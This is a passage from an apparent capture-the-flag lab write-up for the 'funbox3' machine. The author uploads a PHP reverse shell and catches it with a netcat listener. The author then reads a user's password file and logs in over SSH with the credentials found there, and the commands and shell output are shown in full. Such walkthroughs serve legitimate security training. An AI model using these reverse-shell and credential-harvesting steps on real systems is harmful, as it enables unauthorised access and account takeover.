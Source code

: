 images are stored:
```
http://192.168.56.118/store/bootstrap/img/
```

*   It would appear that the backend of this site doesn't actually do anything.

*   It just takes a few minutes the file to upload for some reason

*   Start netcat:

```
nc -lvp 1234
```

Click on php-reverse-shell.php
![](/assets/images/fb3/fb4.png)

```
crazyeights@es-base:~$ nc -lvp 1234
listening on [any] 1234 ...
192.168.56.118: inverse host lookup failed: Unknown host
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.118] 55336
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:38:01 up 44 min,  0 users,  load average: 0.00, 0.01, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
```

```
$ cd /home
$ ls
tony
$ cd tony	
$ ls
password.txt
$ cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
$ 
```

*   the gym site actually did something, huh...

*   The SSH password for tony is in the password file

### Logging into SSH as tony:

> tony:yxcvbnmYYY

```
crazyeights@es-base:~$ ssh tony@192.168.56.118

tony@192.168.56.118's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

[SNIP]
tony@funbox3:~$ 
```
